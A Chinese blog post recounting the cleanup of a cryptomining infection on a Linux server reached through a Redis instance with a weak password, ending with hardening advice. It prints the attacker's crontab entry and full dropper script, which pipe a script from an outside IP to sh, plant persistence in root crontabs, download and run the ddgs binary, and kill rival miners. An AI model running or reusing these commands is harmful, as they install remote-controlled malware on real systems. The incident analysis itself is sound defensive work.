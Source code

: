 ```yaml
---
title: 记一次挖矿病毒处理qW3xT.2
date: 2018-08-12 09:59:32
urlname: problem180812
tags: 
- Linux
- problem
- 病毒
categories: server
---
```


## 问题发现及解决

​	在ucloud使用redis，开启了6379端口，但是当时并没有对redis的密码进行设置复杂的设置，设置的为123456。

使用top命令查询，发现cpu异常占用过高。99%以上

![1536317606280](http://pic.fenghong.tech/tapd_23280401_1536318583_22.png)

​	qW3xT.2程序和ddgs.3013程序，看起来就不是正常的程序。google了一下，发现是美国的一个挖矿程序。

​	进入/tmp文件夹下。发现qW3xT.2文件，删除。之后kill掉qW3xT.2该进程，但是一段时间之后，发现该行程又重新启动。

​	一段时间之后，删除的文件重新生成，dds和挖矿的进程又重新执行。此时怀疑是否有计划任务，此时查看计划任务的列表

```
]# find / -name qW3xT.2
]# find / -name ddgs.3013
]# crontab -l 
*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh
]# cd /var/spool/cron/
]# rm -rf * 	
]# crontab -l  ##任务计划清除完毕。
```

​	分析一下挖矿脚本

```
]# curl -fsSL http://149.56.106.215:8000/i.sh | sh

export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "" > /var/spool/cron/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root
echo "*/15 * * * * wget -q -O- http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root

mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/crontabs/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root
echo "*/15 * * * * wget -q -O- http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root

ps auxf | grep -v grep | grep /tmp/ddgs.3013 || rm -rf /tmp/ddgs.3013
if [ ! -f "/tmp/ddgs.3013" ]; then
    wget -q http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -O /tmp/ddgs.3013
    curl -fsSL http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -o /tmp/ddgs.3013
fi
chmod +x /tmp/ddgs.3013 && /tmp/ddgs.3013

ps auxf | grep -v grep | grep Circle_MI | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep get.bi-chi.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep hashvault.pro | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep nanopool.org | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep minexmr.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep /boot/efi/ | awk '{print $2}' | xargs kill
#ps auxf | grep -v grep | grep ddg.2006 | awk '{print $2}' | kill
#ps auxf | grep -v grep | grep ddg.2010 | awk '{print $2}' | kill
```

​	解决redis入口问题，因为最开始没有设置密码，所以首先修改redis.conf。设置密码，然后重启redis。

## 总结

​	知名应用程序的端口应避免使用默认端口，认证密码应稍微复杂，避免使用888888,123456等简单密码。

